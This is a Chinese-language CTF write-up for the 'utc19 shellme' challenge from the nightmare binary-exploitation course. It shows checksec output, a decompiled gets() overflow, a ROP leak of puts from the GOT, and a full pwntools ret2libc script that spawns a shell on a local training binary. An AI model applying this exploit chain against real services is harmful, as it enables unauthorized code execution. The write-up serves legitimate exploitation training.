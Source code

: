 # 2.G utc19 shellme
首先查看文件

```bash
vuln@ubuntu:~/nightmare/modules/08-bof_dynamic/utc19_shellme$ pwn checksec server 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[*] '/home/vuln/nightmare/modules/08-bof_dynamic/utc19_shellme/server'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

server: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=be2f490cdd60374344e1075c9dd31060666bd524, not stripped
```
没有开启PIE和canary stack，接着运行程序

```bash
vuln@ubuntu:~/nightmare/modules/08-bof_dynamic/utc19_shellme$ ./server 

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED
  return address MODIFIED
0xbfb73e50 | 00 00 00 00 00 00 00 00 |
0xbfb73e58 | 00 00 00 00 00 00 00 00 |
0xbfb73e60 | 00 00 00 00 00 00 00 00 |
0xbfb73e68 | 00 00 00 00 00 00 00 00 |
0xbfb73e70 | ff ff ff ff ff ff ff ff |
0xbfb73e78 | ff ff ff ff ff ff ff ff |
0xbfb73e80 | a0 75 78 b7 00 a0 04 08 |
0xbfb73e88 | 98 3e b7 bf 8b 86 04 08 |
Return address: 0x0804868b

Input some text: aaaaaaaaaa 

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED
  return address MODIFIED
0xbfb73e50 | 61 61 61 61 61 61 61 61 |
0xbfb73e58 | 61 61 00 00 00 00 00 00 |
0xbfb73e60 | 00 00 00 00 00 00 00 00 |
0xbfb73e68 | 00 00 00 00 00 00 00 00 |
0xbfb73e70 | ff ff ff ff ff ff ff ff |
0xbfb73e78 | ff ff ff ff ff ff ff ff |
0xbfb73e80 | a0 75 78 b7 00 a0 04 08 |
0xbfb73e88 | 98 3e b7 bf 8b 86 04 08 |
Return address: 0x0804868b

```
我们可以在这里直接看到，我们输入了10个A，然后它输出了用户的输入地址到EIP地址之间内存中的值。

接下来我们使用IDA来查看程序

```bash
int vuln()
{
  char s[32]; // [esp+0h] [ebp-38h] BYREF
  char v2[20]; // [esp+20h] [ebp-18h] BYREF

  memset(s, 0, sizeof(s));
  memset(v2, 255, 0x10u);
  init_visualize(s);
  visualize(s);
  printf("Input some text: ");
  gets(s);
  return visualize(s);
}
```
可以看到s只分配了32个长度，但是程序并没有做输入校验，所以这里造成了溢出。s到eip的距离为0x38 +4 = 60，知道了这个我们就可以构造ROP来泄漏libc的地址了。

但是这个是在vuln函数中，所以我们泄漏完地址之后还要回到vuln函数，让程序正常运行。从导入函数列表中得到如下导入函数，所以我们只需要找到 /bin/sh 在libc中的偏移，然后调用导入的system函数，就可以执行任意命令了。

![image](images/0f0f7aae-8b95-4430-bec8-c7d07f3f91cf.png)

我们这里使用puts函数来泄漏puts函数的地址，在X86中，如果在栈中传递参数，puts函数的参数在puts栈地址4个字节后面，我们可以从下面的图中清楚的看出来

![image](images/2ba3922f-d137-4f33-8ae2-71d69c23fc78.png)

所以此时如果puts函数的地址为%esp+10，那么它的参数地址就是%esp+14，中间保存着vuln函数的返回地址。所以此时的ROP如下；

```python
elf.symbols['puts']
vuln addr   #  0x08048686 <+70>:    call   0x80485b1 <vuln>
elf.got['puts']
```
这样在执行完puts函数输出puts函数的地址之后，就又会返回vuln函数，等待下一次的输入，下次输入的时候，我们就可以调用system来执行shell了。

接下来我们在libc中寻找/bin/sh字符串的偏移量

```bash
gef➤  vmmap 
Start      End        Offset     Perm Path
0x08048000 0x08049000 0x00000000 r-x /home/vuln/nightmare/modules/08-bof_dynamic/utc19_shellme/server
0x08049000 0x0804a000 0x00000000 r-- /home/vuln/nightmare/modules/08-bof_dynamic/utc19_shellme/server
0x0804a000 0x0804b000 0x00001000 rw- /home/vuln/nightmare/modules/08-bof_dynamic/utc19_shellme/server
0xb7e17000 0xb7e18000 0x00000000 rw- 
0xb7e18000 0xb7fc8000 0x00000000 r-x /lib/i386-linux-gnu/libc-2.23.so
0xb7fc8000 0xb7fc9000 0x001b0000 --- /lib/i386-linux-gnu/libc-2.23.so
0xb7fc9000 0xb7fcb000 0x001b0000 r-- /lib/i386-linux-gnu/libc-2.23.so
0xb7fcb000 0xb7fcc000 0x001b2000 rw- /lib/i386-linux-gnu/libc-2.23.so
0xb7fcc000 0xb7fcf000 0x00000000 rw- 
0xb7fd6000 0xb7fd7000 0x00000000 rw- 
0xb7fd7000 0xb7fda000 0x00000000 r-- [vvar]
0xb7fda000 0xb7fdb000 0x00000000 r-x [vdso]
0xb7fdb000 0xb7ffe000 0x00000000 r-x /lib/i386-linux-gnu/ld-2.23.so
0xb7ffe000 0xb7fff000 0x00022000 r-- /lib/i386-linux-gnu/ld-2.23.so
0xb7fff000 0xb8000000 0x00023000 rw- /lib/i386-linux-gnu/ld-2.23.so
0xbffdf000 0xc0000000 0x00000000 rw- [stack]
gef➤  search-pattern '/bin/sh'
[+] Searching '/bin/sh' in memory
[+] In '/lib/i386-linux-gnu/libc-2.23.so'(0xb7e18000-0xb7fc8000), permission=r-x
  0xb7f73b0b - 0xb7f73b12  →   "/bin/sh" 
gef➤


>>> 0xb7f73b0b - 0xb7e18000
1424139
>>> hex(1424139)
'0x15bb0b'
>>> 
```
现在这些元素都齐了，那么就可以开始构造EXP了

```python

from pwn import *

target = process('./server')
libc = ELF('/lib/i386-linux-gnu/libc-2.23.so')
elf = ELF('./server')


payload = ''
payload += '0'*0x3c
payload += p32(elf.symbols['puts'])
payload += p32(elf.symbols['vuln'])
payload += p32(elf.got['puts'])

target.sendline(payload)
print target.recvuntil('Return address:')       # 这里需要两次接收return address，第一次是第一次调用时候输入text之后返回的输出结果的return address
print target.recvuntil('Return address:')       # 第二次是ROP执行之后，获取用户输入时候的return address
print target.recvline()                         # 然后接着2次的接收空行，是把return addr 后面的空行和Input some text给过滤掉
print target.recvline()

leak = u32(target.recvline()[0:4])              # 这里就是ROP puts函数输出puts的地址了
base = leak - libc.symbols['puts']

print 'leak addr: ' + hex(base)

binsh = 0x15bb0b

payload = ''
payload += '0'*0x3c
payload += p32(base + libc.symbols['system'])
payload += p32(0x30303030)              # rewrite eip address value
payload += p32(base + binsh)

target.sendline(payload)
target.interactive()

```
参考文档：

https://ctftime.org/writeup/17570